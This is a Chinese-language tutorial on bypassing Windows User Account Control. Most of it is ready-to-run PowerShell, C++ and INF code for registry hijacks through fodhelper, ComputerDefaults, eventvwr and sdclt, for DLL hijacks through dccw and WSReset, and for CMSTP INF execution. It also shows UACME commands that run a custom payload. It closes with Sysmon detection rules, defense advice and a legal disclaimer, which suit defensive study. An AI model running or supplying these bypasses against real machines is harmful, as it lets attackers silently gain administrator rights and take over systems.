

## 一、UAC 概述

用户账户控制（User Account Control，UAC）是 Windows 从 Vista 开始引入的核心安全机制。它将管理员权限请求隔离，要求用户通过弹窗确认提权。UAC 将用户划分为标准用户和管理员批准模式（AAM），日常操作默认运行在标准上下文中。

UAC 定义了四个完整性级别（Integrity Level）：

| 级别 | 值 | 说明 | 典型进程 |
|------|-----|------|----------|
| System | 0x4000 | 系统服务最高权限 | services.exe, lsass.exe |
| High | 0x3000 | 管理员完整权限 | mmc.exe (提权后) |
| Medium | 0x2000 | 标准用户默认级别 | explorer.exe, cmd.exe (普通) |
| Low | 0x1000 | 沙箱限制环境 | IE Protected Mode |

攻击者获得 Medium IL Shell 后需要绕过 UAC 提权到 High 级别才能执行管理操作。

## 二、UAC 通知级别与自动提升机制

Windows UAC 的四档通知级别：

| 级别 | 名称 | 行为 |
|------|------|------|
| 1 | 始终通知 | 任何系统更改都弹窗 |
| 2 | 默认 | 程序修改系统时弹窗，桌面设置不弹窗 |
| 3 | 不降低亮度 | 同级别2，但不切换安全桌面 |
| 4 | 从不通知 | 完全关闭 UAC |

默认级别下，Windows 有一组微软签名的白名单二进制，满足以下条件即可**静默自动提升**——不弹窗直接获得 High IL：

- 位于 `%SystemRoot%\System32` 等受保护目录
- 经 Microsoft 数字签名
- 内嵌清单中标记 `autoElevate="true"`

使用 sigcheck 验证：

```bash
sigcheck.exe -m C:\Windows\System32\fodhelper.exe
```

## 三、注册表劫持绕过

### 3.1 fodhelper.exe

`fodhelper.exe`（Features On Demand Helper）是自动提升程序，启动时查询以下注册表路径：

```
HKCU\Software\Classes\ms-settings\shell\open\command
```

默认该路径不存在。攻击者创建此路径并写入恶意命令即可劫持执行流。

```powershell
# 写入注册表
New-Item -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Force | Out-Null
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" `
    -Name "(Default)" -Value "C:\Windows\System32\cmd.exe" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" `
    -Name "DelegateExecute" -Value "" -Force

# 触发提权
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden

# 清理
Remove-Item -Path "HKCU:\Software\Classes\ms-settings" -Recurse -Force
```

C++ 实现简化版：

```cpp
void SetRegKey(LPCWSTR cmd) {
    HKEY hKey;
    RegCreateKeyEx(HKEY_CURRENT_USER,
        L"Software\\Classes\\ms-settings\\shell\\open\\command",
        0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE, NULL, &hKey, NULL);
    RegSetValueEx(hKey, NULL, 0, REG_SZ, (BYTE*)cmd,
        (lstrlen(cmd)+1)*sizeof(WCHAR));
    RegSetValueEx(hKey, L"DelegateExecute", 0, REG_SZ,
        (BYTE*)L"", sizeof(WCHAR));
    RegCloseKey(hKey);
}
int main() {
    SetRegKey(L"C:\\Windows\\System32\\cmd.exe");
    ShellExecute(NULL, L"open",
        L"C:\\Windows\\System32\\fodhelper.exe",
        NULL, NULL, SW_HIDE);
    return 0;
}
```

### 3.2 eventvwr.exe

事件查看器同样是自动提升程序，启动时查询：

```
HKCU\Software\Classes\mscfile\shell\open\command
```

```powershell
New-Item -Path "HKCU:\Software\Classes\mscfile\shell\open\command" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\mscfile\shell\open\command" `
    -Name "(Default)" -Value "C:\Windows\System32\cmd.exe" -Force
Start-Process "C:\Windows\System32\eventvwr.exe" -WindowStyle Hidden
```

> 注意：Windows 10 1607+ 已部分修补此方法，有效性取决于补丁级别。

### 3.3 sdclt.exe

`sdclt.exe`（备份和还原中心）利用 control.exe 路径劫持：

```powershell
New-Item -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Force
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" `
    -Name "(Default)" -Value "C:\Users\Public\payload.exe" -Force
Start-Process "C:\Windows\System32\sdclt.exe"
```

### 3.4 ComputerDefaults.exe

与 fodhelper 共用相同注册表路径，使用不同启动程序，在 Win10/Win11 上始终可用：

```powershell
Start-Process "C:\Windows\System32\ComputerDefaults.exe" -WindowStyle Hidden
```

## 四、DLL 劫持绕过 UAC

### 4.1 DLL 搜索顺序

Windows 默认搜索顺序（SafeDllSearchMode 启用）：

1. 应用程序所在目录
2. `C:\Windows\System32`
3. `C:\Windows\System`
4. `C:\Windows`
5. 当前工作目录
6. `%PATH%` 目录

### 4.2 实战：Dccw.dll 劫持

`dccw.exe`（显示颜色校准）加载 `Dccw.dll`，将特制 DLL 放在当前目录即可劫持：

```cpp
// evil_dccw.cpp → 编译为 Dccw.dll
#include <Windows.h>
BOOL APIENTRY DllMain(HMODULE h, DWORD reason, LPVOID lp) {
    if (reason == DLL_PROCESS_ATTACH) {
        DisableThreadLibraryCalls(h);
        ShellExecute(NULL, L"open", L"cmd.exe", NULL, NULL, SW_SHOW);
        ExitProcess(0);
    }
    return TRUE;
}
```

```powershell
Copy-Item .\Dccw.dll C:\Users\Public\
cd C:\Users\Public
C:\Windows\System32\dccw.exe
```

## 五、CMSTP / WSReset 方法

### 5.1 CMSTP.exe

`CMSTP.exe`（Connection Manager Profile Installer）可加载 INF 文件执行命令（T1218.003 技术）：

```ini
; uac_bypass.inf
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall]
CustomDestination=CustInstDestSectionAllUsers
RunPreSetupCommands=RunPreSetupCommandsSection

[RunPreSetupCommandsSection]
C:\Windows\System32\cmd.exe

[CustInstDestSectionAllUsers]
49000,49001=AllUSer_LDIDSection,7

[AllUSer_LDIDSection]
"HKLM","SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\CMMGR32.EXE","ProfileInstallPath","%UnexpectedError%",""

[Strings]
ServiceName="UACBypass"
ShortSvcName="UACBypass"
```

```bash
cmstp.exe /s C:\Users\Public\uac_bypass.inf
```

### 5.2 WSReset.exe

`WSReset.exe` 自动提升，加载 `AppxPackaging.dll` 等 DLL，利用 DLL 路径劫持：

```powershell
Copy-Item .\AppxPackaging.dll C:\Users\Public\Downloads\
$env:Path = "C:\Users\Public\Downloads;" + $env:Path
Start-Process C:\Windows\System32\WSReset.exe
```

## 六、UACME 工具使用

[UACME](https://github.com/hfiref0x/UACME) 是 hfiref0x 维护的开源工具，收录 60+ 种 UAC 绕过方法：

| 编号 | 方法 | 原理 | 适用版本 |
|------|------|------|----------|
| 23 | fodhelper | 注册表 ms-settings 劫持 | Win10/11 |
| 33 | eventvwr | MSC 注册表劫持 | Win7 - Win10 1607 |
| 39 | ComputerDefaults | 同 fodhelper 路径 | Win10/11 |
| 41 | sdclt | control.exe 路径劫持 | Win10 |
| 44 | WSReset | Appx DLL 劫持 | Win10 |
| 54 | CMSTP | INF 命令执行 | Win8 - Win11 |
| 61 | DiskCleanup | schtasks 劫持 | Win10 |

使用：

```bash
akagi32.exe          # 列出所有方法
akagi32.exe 23       # fodhelper 方法
akagi64.exe 39       # ComputerDefaults 方法
akagi32.exe 23 "C:\Users\Public\reverse.exe"  # 自定义 payload
```

核心源码简化（方法23）：

```c
BOOL ucmMethod23() {
    CreateKey(HKCU, L"Software\\Classes\\ms-settings\\shell\\open\\command");
    SetValue(HKCU, commandKey, L"", payloadPath);
    SetValue(HKCU, commandKey, L"DelegateExecute", L"");
    CreateProcess(L"C:\\Windows\\System32\\fodhelper.exe", ...);
    Sleep(5000);
    DeleteKey(HKCU, L"Software\\Classes\\ms-settings");
    return TRUE;
}
```

## 七、UAC 绕过流程图



## 八、检测与防御

### 检测：Sysmon 规则

```xml
<Sysmon schemaversion="4.30">
  <EventFiltering>
    <RegistryEvent onmatch="include">
      <TargetObject condition="contains">
        \Software\Classes\ms-settings\shell\open\command</TargetObject>
      <TargetObject condition="contains">
        \Software\Classes\mscfile\shell\open\command</TargetObject>
    </RegistryEvent>
    <ProcessCreate onmatch="include">
      <Image condition="end with">fodhelper.exe</Image>
      <Image condition="end with">ComputerDefaults.exe</Image>
      <ParentImage condition="is not">C:\Windows\explorer.exe</ParentImage>
    </ProcessCreate>
  </EventFiltering>
</Sysmon>
```

### 防御建议

1. **UAC 设为"始终通知"（级别1）**——任何提权都弹窗。
2. **及时安装安全补丁**——微软每月修补已知绕过路径。
3. **启用 Windows Defender Credential Guard**。
4. **通过 GPO/AppLocker 限制 HKCU 敏感注册表写入**。
5. **部署 EDR 并配置 UAC 绕过相关检测规则**。

## 九、免责声明

> **本文内容仅供安全研究与授权的渗透测试使用。** 未经系统所有者明确书面授权，对任何系统实施本文描述的技术均属违法行为。作者不承担因滥用本文信息而导致的任何法律责任。
>
> 合法使用场景：已授权的渗透测试、内部红队演练、安全研究实验室环境、CTF 竞赛。
>
> **请始终遵守相关法律法规及授权范围。**

## 十、总结

UAC 绕过持续存在的根源：

- **自动提升白名单不可移除**：大量系统组件依赖此机制。
- **HKCU 注册表可写**：当前用户天生可修改，是注册表劫持温床。
- **DLL 搜索顺序攻击面**：非安全目录加载 DLL 的劫持始终可能。

实战中优先尝试 **fodhelper（方法23）** 和 **ComputerDefaults（方法39）**，在当前主流 Windows 版本中成功率最高。

---

**参考资源：**
- [UACME - Defeating Windows User Account Control](https://github.com/hfiref0x/UACME)
- [Microsoft Docs - How User Account Control Works](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works)
- [MITRE ATT&CK - T1548.002: Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002/)
- [LOLBAS Project](https://lolbas-project.github.io/)
